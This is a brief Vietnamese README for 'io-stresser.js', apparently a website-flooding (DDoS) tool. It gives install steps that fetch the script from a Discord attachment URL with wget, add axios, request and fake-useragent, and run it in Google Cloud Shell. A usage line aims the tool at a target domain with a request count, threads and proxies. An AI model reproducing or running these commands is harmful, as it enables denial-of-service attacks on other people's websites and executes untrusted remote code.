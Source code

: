# io-stresser.js

mỗi trường thực hiện
=======
[Google Shell](https://shell.cloud.google.com/)

cài đặt
=======
```
wget https://cdn.discordapp.com/attachments/912663711297183744/918331196008710254/io-stresser.js
npm install axios
npm install request
npm install fake-useragent
node io-stresser.js
```
cách sử dụng
=======
```
node io-stresser.js https://domain.com 10000 5 proxy
```
